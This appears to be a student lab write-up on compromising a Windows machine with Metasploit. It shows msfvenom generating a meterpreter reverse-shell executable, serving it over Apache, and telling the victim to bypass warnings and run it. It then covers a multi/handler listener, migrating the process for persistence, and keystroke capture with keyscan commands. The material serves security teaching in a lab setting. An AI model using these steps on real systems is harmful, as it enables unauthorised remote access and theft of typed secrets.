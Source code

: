 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
OUTPUT:
![WhatsApp Image 2024-11-05 at 19 47 30_edff549e](https://github.com/user-attachments/assets/450864d0-f962-4a86-a652-7eccfc1c63cf)

Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe

OUTPUT:

![WhatsApp Image 2024-11-05 at 19 53 54_a9bcf60a](https://github.com/user-attachments/assets/729a31ed-f887-4705-9e54-2a5c30912abc)

copy the fun.exe into the apache /var/www/html folder 


![WhatsApp Image 2024-11-05 at 19 57 51_232e5c3f](https://github.com/user-attachments/assets/baa5a279-4e79-43a1-b17a-16ff311ea405)

Start apache server sudo systemctl apache2 start

![WhatsApp Image 2024-11-05 at 16 48 18_66f01112](https://github.com/user-attachments/assets/222944fa-5827-4f90-9b41-0f377ea90a76)

Check the status of apache2 
![WhatsApp Image 2024-11-05 at 16 48 18_66f01112](https://github.com/user-attachments/assets/878801f3-8083-4864-a7a0-21809cc4fa2f)

Invoke msfconsole:

OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![image](https://github.com/user-attachments/assets/ce5096ba-9a77-4906-8c4e-d2d51ff1c826)

On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: 
http://192.168.1.2/fun.exe
The file "fun.exe" downloads.
![image](https://github.com/user-attachments/assets/6fd5a5b6-1f9e-40aa-826d-16dd33fd3c16)
Bypass any warning boxes, double-click the file, and allow it to run.
On kali give the command exploit
![image](https://github.com/user-attachments/assets/3a2e0b01-8eed-475c-ab9f-7bb7ed49b23e)
To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156
The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:
migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![image](https://github.com/user-attachments/assets/e18a3617-a760-4dd7-a551-4a0c798b4221)
Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.
![image](https://github.com/user-attachments/assets/308f6940-cc27-4c87-9f94-97f5a34bee66)
keyscan_dump Shows the keystrokes captured so far

![image](https://github.com/user-attachments/assets/964d658f-5501-4818-a5e4-b7e7ee24e014)


## RESULT:

The Metasploit framework for reconnaissance is examined successfully

